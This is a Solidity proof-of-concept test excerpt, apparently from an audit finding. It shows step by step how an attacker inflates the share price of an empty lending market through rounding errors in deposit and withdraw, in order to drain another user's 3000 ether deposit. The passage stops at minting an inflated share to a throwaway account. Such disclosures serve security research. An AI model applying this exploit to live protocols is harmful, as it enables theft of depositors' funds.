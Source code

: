 ```solidity
    //this is the deposit that will be stolen later on
    vm.prank(BOB);
    marketWETH.deposit(3000 ether, BOB);

    //These are attacker's interactions that uses DAI market which has 0 totalSupply to drain the protocol (BOB's 3000 ether in this case)
    uint256 wETHBalanceBefore = marketWETH.asset().balanceOf(address(this));
    uint256 assetBalanceBefore = market.asset().balanceOf(address(this));
    //require that the total Supply is zero
    require(market.totalSupply() == 0, "totalSupply is not zero");

    //enter the market
    market.auditor().enterMarket(market);

    //make a small deposit
    market.deposit(0.01 ether, address(this));
    //borrow even smaller amount
    uint256 borrowShares = market.borrow(0.005 ether, address(this), address(this));

    //wait for 1 block which is enough so that atleast 1 wei is accured as interest
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 10 seconds);

    //deposit a few tokens to accure interest
    market.deposit(2, address(this));

    //repay all the debt
    market.refund(borrowShares, address(this));

    //redeem all but 1 wei of the deposit
    uint256 shares = market.balanceOf(address(this));
    market.redeem(shares - 1, address(this), address(this));

    require(market.totalAssets() == 2 && market.totalSupply() == 1, "starting conditions are not as expected");

    uint256 desiredPricePerShare = 8000 ether;
    // The loop to inflate the price
    while (true) {
      uint256 sharesReceived = market.deposit(market.totalAssets() * 2 - 1, address(this));
      require(sharesReceived == 1, "sharesReceived is not 1 as expected"); //this should have been 1.99999... for larger values of i but it is rounded down to 1

      if (market.totalAssets() > desiredPricePerShare) break;

      uint256 sharesBurnt = market.withdraw(1, address(this), address(this));
      require(sharesBurnt == 1, "sharesBunrt is not 1 as expected"); //this should have been ~0.0000001 for larger values of i but it is rounded up to 1
    }

    uint256 sharesBurnt = market.withdraw(market.totalAssets() - desiredPricePerShare, address(this), address(this));
    require(sharesBurnt == 1, "sharesBunrt is not 1 as expected");

    require(
      market.totalAssets() == desiredPricePerShare && market.totalSupply() == 1, "inflating the price was unsuccessful"
    );

    ThrowAwayAccount throwAwayAccount = new ThrowAwayAccount();

    //mint 1 wei of share (worth 8000 ether) to the throwaway account
    market.mint(1, address(throwAwayAccount));
```